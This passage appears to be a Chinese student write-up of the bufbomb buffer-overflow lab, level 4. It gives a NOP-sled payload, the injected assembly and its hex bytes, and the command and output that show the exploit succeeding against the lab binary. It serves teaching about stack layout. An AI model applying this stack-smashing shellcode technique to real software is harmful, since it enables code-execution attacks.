 `一共520个(填充nop 90 注入指令),oldebp空位,跳转地址到0x418`

```
leal 0x28(%esp),%ebp
movl $0x7f9d2743,%eax
pushl $0x08048e3a
ret
```

和前面一样用`gcc+objdump`获得机器码的十六进制

**注意！！！ gcc 编译记得加-m32 因为32和64下编译出来的lea不一样 只能得到segment fault 然后我在这个蛋疼的地方调了2+hours**

最后三行

```
90 b8 43 27 9d 7f 8d 6c
24 28 68 3a 8e 04 08 c3
00 00 00 00 18 34 68 55
```

验证

```
cat exploit.ans4 | ./hex2raw -n | ./bufbomb -n -u cromarmot
Userid: cromarmot
Cookie: 0x7f9d2743
Type string:KABOOM!: getbufn returned 0x7f9d2743
Keep going
Type string:KABOOM!: getbufn returned 0x7f9d2743
Keep going
Type string:KABOOM!: getbufn returned 0x7f9d2743
Keep going
Type string:KABOOM!: getbufn returned 0x7f9d2743
Keep going
Type string:KABOOM!: getbufn returned 0x7f9d2743
VALID
NICE JOB!
```


综上 我们对函数调用时栈有一定程度的熟悉了
